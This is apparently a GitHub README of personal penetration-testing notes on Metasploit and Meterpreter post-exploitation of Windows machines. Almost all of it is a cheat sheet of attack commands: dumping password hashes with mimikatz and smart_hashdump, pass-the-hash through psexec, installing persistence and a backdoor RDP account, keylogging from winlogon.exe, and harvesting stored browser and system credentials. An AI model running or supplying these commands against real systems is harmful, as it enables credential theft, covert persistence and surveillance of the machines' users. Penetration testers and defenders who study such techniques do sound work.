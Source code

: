 # pen-leviathan
pentesting notes

## Priv Escalation
- If we grab hashes for a system, we can use `mimikatz` to grab them from memory. This needs to be done in a 64 bit process so that meterpreter can load the module without problem.
- Run `sysinfo` and check Meterpreter value. (x86/win32 aint gonna cut it)
- To find a process to migrate to, run `ps -A x86_64 -s` when you are a `system`. This will display available compatible processes to migrate to.

## Grab hashes
- `run post/windows/gather/smart_hashdump`
- Now you can run `creds` or `loot` in the msf console to see the data as well.
- use `exploit/windows/smb/psexec`
- set usersname and then the password hash

 ## Backdoor Installation
 - For windows systems, once you have a meterpreter session, `run persistence`
 - `run getgui -e -u atk_user -p atk_password`
 - RDP Service is now started and user 'atk_user' with password 'atk_password' can now rdp into the machine.

## Pillaging
Commands inside of meterpreter for pillaging data
- sysinfo
-- if server, for example, we would know to search and see what type of services are running (in shell this would be `wmic service where started=true get catption`
- getuid
Meterpreter has a good set of gather utilities under:
- run post/windows/gather OR
- run post/linux/gather
These can also be used outsie of the meterpreter session. You just need to use the `use` command, configure its options with `set` and then execute the module with `run`
### Windows
- run post/windows/gather/enum_domains
If the machine is part of a domain, we can enumerate accounts and other information in the default active domain
- run post/windows/gather/enum_ad_users
- In a shell, run `net localgroup` to list groups and `net localgroup [GROUPNAME]` to list members of a specific group
To figure out what resources are shared:
- run enum_shares (same as `net share` in a shell)
The two main scripts to use against windows hosts are:
- scraper - harvests system info including network shares, registry hives, and password hashes
- winenum - retrieves all kinds of info about the system including env vars, networking interfaces, routing, user accounts, and much more
- Both of the above are invoked using `run winenum` or `run scraper`. Files are saved locally.
Keyloggers:
These only record the keys of the process the session has been migrated to. So if you want info when a user logs into their computer, you need to be migrated to the `winlogon.exe` process.
- `run keylogrecorder` <- there is a `-c` option that allows you to automate the migration into the correct process.
- `run post/windows/capture/keylog_recorder`
Searching for files:
- From a meterpreter session: `search -d C:\\Users\\els\\ -f *.kdbx` <- password database file extension
Downloading files:
- use the download command.
Gather Credentials:
- `run post/windows/gather/credentials/`
- In the parent directory, there are useful scripts as well. For example the `enum_chrome` script can be used to gather credentials stored in Google Chrome
List Applications:
- `run post/windows/gather/enum_applications`
Other:
- `run post/windows/gather/credentials/credential_collector`

### Linux
https://n0where.net/linux-post-exploitation

